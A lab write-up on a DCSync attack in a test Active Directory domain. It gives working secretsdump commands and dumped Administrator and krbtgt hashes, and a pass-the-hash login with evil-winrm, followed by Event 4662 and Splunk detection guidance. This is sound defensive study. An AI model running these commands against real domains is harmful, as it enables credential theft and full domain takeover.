




# Privilege Escalation (DCSync)

The endgame technique. DCSync abuses the legitimate AD replication protocol to make a domain controller hand over password hashes for any account, including `krbtgt` and `Administrator`. No code runs on the DC. No malware. The DC is asked, in protocol, to replicate account data, and it complies because the requesting account holds the right permissions.

In this lab, john.smith was added to Domain Admins in scenario 3, which inherits the replication rights required for DCSync.

## MITRE ATT&CK Mapping (TTPs)

| Tactic            | Technique                                            | ID        |
| ----------------- | ---------------------------------------------------- | --------- |
| Credential Access | OS Credential Dumping: DCSync                        | T1003.006 |
| Defense Evasion   | Use Alternate Authentication Material: Pass the Hash | T1550.002 |

## Attack

### Step 1: Dump the Administrator hash (T1003.006)

Targeted extraction of one account's hash, using Impacket's secretsdump and john.smith's credentials:

```bash
impacket-secretsdump corp.local/john.smith:Password@123@192.168.40.10 \
  -just-dc-user Administrator
```

Output included the NT hash and the AES Kerberos keys:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4:::
Administrator:aes256-cts-hmac-sha1-96:4f7350d2650f631b3f3dfb89c8b3308afa7ab7e6a0c0b5b9561fd4401399a14d
Administrator:aes128-cts-hmac-sha1-96:b0958fae566a4cf501928c89c9a0d560
Administrator:des-cbc-md5:8cb957efbc31a4f8
```

The fourth field on the first line is the NT hash. Targeted dumps are slightly stealthier than dumping everything and prove the rights work.



### Step 2: Dump the krbtgt hash (T1003.006)

```bash
impacket-secretsdump corp.local/john.smith:Password@123@192.168.40.10 \
  -just-dc-user krbtgt
```

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:be35f0452c852f3f4b0de0d5aef14d1d:::
```

The krbtgt hash signs every Kerberos TGT in the domain. With it, an attacker can forge Golden Tickets (valid TGTs for any account, any group, any lifetime). Extracting krbtgt is effectively total domain compromise.


### Step 3: Full domain dump (T1003.006)

```bash
impacket-secretsdump corp.local/john.smith:Password@123@192.168.40.10 -just-dc
```

Returned NT hashes and Kerberos keys for every account in the domain, including the Hacker account created in scenario 2. This shows the blast radius of the privilege: one command, every credential.


### Step 4: Pass the Hash (T1550.002)

The Administrator NT hash was used to authenticate without the password:

```bash
evil-winrm -i 192.168.40.10 -u Administrator -H 579da618cfbfa85247acf1f800a280a4
```

`whoami` returned `corp\administrator`. The hash is functionally equivalent to the password for NTLM-based authentication, which is what makes the dump so dangerous: every account hash in the dump is reusable for Pass the Hash against any host accepting NTLM.


## Detection

### Event 4662 (operation on a directory service object)

DCSync generates 4662 events because the replication request is a directory service access operation. The challenge is volume: legitimate DC to DC replication also generates 4662, so a raw filter is noisy. The distinguishing indicators are:

1. The Subject is a user account, not a domain controller computer account.
2. The Properties field contains the replication rights GUIDs.

In the lab, filtering 4662 events surfaced a cluster of activity with Subject `CORP\john.smith` (a normal user) performing `Control Access` on object `DC=corp,DC=local` (the domain root). Legitimate replication would show `DC01$` as the subject, not john.smith.



The Details (EventData) view confirmed the replication GUID in the Properties field:

```
Properties: %%7688 {1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}
                   {19195a5b-6da0-11d0-afd3-00c04fd930c9}
```

The GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is `DS-Replication-Get-Changes-All`, the high-fidelity DCSync indicator. Its presence in a 4662 from a non-DC account is the cleanest signature of this attack.



### Splunk

```spl
index=* EventCode=4662 Account_Name="john.smith"
| table _time, Account_Name, Object_Name, Properties
| sort -_time
```

Returned 39 events, all from john.smith, all `Control Access` on the same domain object, clustered within seconds. The burst pattern is itself a behavioural indicator: DCSync issues many replication requests in rapid succession as it pulls each property, and a single user account triggering that burst is not normal AD behaviour.



## Summary

| Step               | TTP       | Event ID            |
| ------------------ | --------- | ------------------- |
| Dump Administrator | T1003.006 | 4662                |
| Dump krbtgt        | T1003.006 | 4662                |
| Full domain dump   | T1003.006 | 4662 (burst)        |
| Pass the Hash      | T1550.002 | 4624 (logon type 3) |

Two important caveats for this scenario:

DCSync detection via 4662 depends on SACL auditing being configured on the domain object for `DS-Replication-Get-Changes`. In default configurations this is often not set, and the attack succeeds without leaving a detectable 4662. This lab captured the events because auditing was enabled. The detection gap in defaults is itself a finding worth noting.

The krbtgt hash exposure here is a full domain compromise scenario. In a real environment the response would be a double krbtgt password reset (two resets, 10+ hours apart) to invalidate any Golden Tickets the attacker may have forged. For the lab, the hash exposure was the demonstration; no remediation was needed.
